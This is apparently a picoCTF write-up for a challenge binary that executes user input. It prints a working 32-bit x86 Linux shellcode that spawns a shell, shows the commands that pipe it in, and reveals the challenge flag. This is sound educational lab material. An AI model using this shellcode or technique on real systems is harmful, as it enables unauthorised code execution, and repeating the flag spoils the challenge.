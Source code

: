 In main(), this line runs the input
```
((void (*)())buf)();
```

If we just run the program and put in random input like asdf, the program will crash since asdf aren't valid instruction that can be executed
```
$ ./vuln
Enter your shellcode:
asdf
asdf
Thanks! Executing now...
Segmentation fault (core dumped)
```
As we can see, the program just segfaults.


However, if we use 0xC3 as the input, the program will run without crashing since 0xC3 is the 'ret' assembly instruction, so when we run the program with it as input, the program should exit without crashing.
```
$ echo -e '\xC3' | ./vuln 
```

This confirms our assumptions of how the program runs. According to Gynvael, exploitation is a process where "everything can go wrong," so it's good to work with small steps to make sure our assumptions are correct.

Find out what architecture the shellcode should be:
```
$ file vuln
vuln: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=7b65fbf1fba331b6b09a6812a338dbb1118e68e9, not stripped
```
This shows us that the program is a 32 bit program running on x86 Linux. 

To find some shellcode just google "x86 32 linux shellcode"
We find some shellcode for spawning a shell [here](http://shell-storm.org/shellcode/files/shellcode-827.php)
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Let's give vuln the shellcode as input
```
$ echo -e '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` | ./vuln
Enter your shellcode:
1Ph//shh/binPS
Thanks! Executing now...
```
The shellcode above doesn't seem to work, but it actually does. The program just exits after successfully running the shellcode and spawning a shell. In order to interact with the shell, we need to keep stdin open.
```
$ (echo -e '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`; cat) | ./vuln
Enter your shellcode:
1Ph//shh/binPS
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}
```
Gynvael saves his shellcode to a file and then uses `cat shellcode - | ./vuln` instead but the above does the same thing.
